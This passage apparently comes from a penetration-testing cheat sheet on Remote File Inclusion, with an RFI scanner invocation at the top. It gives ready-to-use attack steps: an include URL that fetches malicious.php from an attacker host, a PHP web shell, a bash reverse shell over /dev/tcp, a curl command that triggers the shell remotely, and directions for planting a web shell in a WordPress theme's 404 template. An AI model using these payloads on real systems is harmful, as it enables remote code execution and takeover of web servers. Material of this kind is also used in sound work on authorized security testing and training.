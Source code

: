 
- **RFIScanner**: A simple Python-based RFI vulnerability scanner.

    python rfiscanner.py <target_url>
    

#### 3.3.2 Remote File Inclusion (RFI)

Remote File Inclusion (RFI) allows attackers to include external files into the web server&rsquo;s
                execution
                context, potentially leading to Remote Code Execution (RCE).

##### 3.3.2.1 Basic RFI Example

If a web application allows including a remote file, you can execute arbitrary code by referencing an
                external malicious script:

    # This assumes the server&#39;s allow_url_fopen or allow_url_include settings are enabled.
    http://<target_url>/file.php?recurse=http://<attacker_ip>/malicious.php
    

##### 3.3.2.2 Reverse Shell via RFI

1. **Start a Simple HTTP Server**:

    python3 -m http.server 80
    

1. **Host the malicious PHP reverse shell (e.g., `revshell.php`) on your own
                    server**:

    # Option 1: Reverse Shell via PHP
    <?php system($_GET[&#39;cmd&#39;]); ?>
    
    # Option 2: Reverse Shell via Bash
    bash -c "sh -i >& /dev/tcp/[LHOST]/[LPORT] 0>&1"
    

1. **Perform Remote File Inclusion**:

    curl "http://<TARGET>/index.php?page=http://<ATTACKER_IP>/revshell.php&cmd=ls"
    

#### 3.3.3 WordPress Plugin for Reverse Shell

If you gain access to an admin WordPress panel, you can navigate to **Theme > Appearance >
                  Editor > 404 Template**. There, you can modify the PHP code to include your malicious web
                shell. For example, refer to Section 3.3.3.3 for the code that allows you to access the shell at:
                `http://[IP]/[cms-path]/wp-content/nonexistent?cmd=[command]`.
              

Alternatively, you can use the payload `multi-os-php-reverse-shell.php`, which automatically
                triggers a reverse shell when accessed. For a more complex approach, you could use a GitHub tool to
                create a malicious plugin, upload it, and obtain the reverse shell, as described in the below Sections
                3.3.3.1 and 3.3.3.2.
